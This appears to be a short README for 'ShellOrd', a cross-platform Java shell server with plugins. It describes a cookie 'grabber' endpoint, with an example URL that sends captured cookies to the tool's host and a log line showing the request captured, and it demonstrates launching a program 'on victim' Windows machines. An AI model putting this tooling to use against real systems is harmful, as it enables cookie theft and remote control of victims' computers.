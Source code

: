 🐚 ShellOrd Server Cross-Platform written in Java

- Plugins: A collection of plugins. (.jar or .py). 

## Requirements

- Python plugins requires Jython Standalone 2.7.2.
- ShellOrd Server requires Java 11+.

## Bypass localhost + capture requests

https://shellord.mibaltoalex.com:60443

shellord.mibaltoalex.com => 127.0.0.1

## Grabber requests (GET / POST)

https://shellord.mibaltoalex.com:60443/grabber/info?cookie=captured

`2022-03-12 11:08:20.842 SHELLORD::grabber: Request captured: 'Host: 127.0.0.1 ; GET /info?cookie=captured`

## Web server - Login

![shellord-login](../_img/shellord-login.gif)

## Example

Example launch calculator on victim (Windows)

![shellord-calc](../_img/shellord_calc.gif)
